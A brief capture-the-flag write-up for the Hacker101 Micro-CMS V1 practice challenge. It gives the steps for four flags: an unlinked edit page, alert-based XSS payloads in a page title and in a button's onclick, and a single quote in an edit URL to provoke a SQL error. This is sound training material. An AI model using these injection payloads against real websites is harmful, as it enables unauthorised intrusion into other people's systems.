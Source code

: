 # Micro-CMS V1

## Flag 1
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/6 -> flag

![](./images/1.png)
## Flag 2
create page and use XSS payload on title
<script>alert("xss")</script> 
when going back home, get flag

![](./images/2.png)

## Flag 3
on page 2, edit -> https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2

change the button to this:
<button onclick=alert("pwned")>Some button</button>

popup with alert appears, now go to source code and flag is there
![](./images/3.png)

## Flag 4
add a single quote on the edit url
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2'

![](./images/4.png)